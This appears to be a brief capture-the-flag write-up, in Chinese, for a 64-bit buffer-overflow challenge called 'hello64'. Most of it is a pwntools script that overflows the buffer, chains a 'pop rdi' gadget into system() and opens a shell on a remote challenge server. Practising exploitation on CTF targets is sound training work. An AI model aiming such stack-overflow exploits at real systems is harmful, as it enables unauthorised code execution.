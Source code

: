 ## hello64

64位程序传的参数放的地方好像不一样

用gdb找到哪个寄存器（？）啥的地址0x40127b，写传给system函数的参数的地址0x402029

网上找的，对着32位改就完了

```python
from pwn import *

p = process('./run64')

p = remote('47.93.116.52',20203)

elf = ELF('./run64')
sys = elf.symbols['system']

arg_addr = 0x402029
pop_rdi = 0x40127b

payload = b'A' * 136 + p64(pop_rdi) + p64(arg_addr) + p64(sys)

p.sendline(payload)
p.interactive()

```

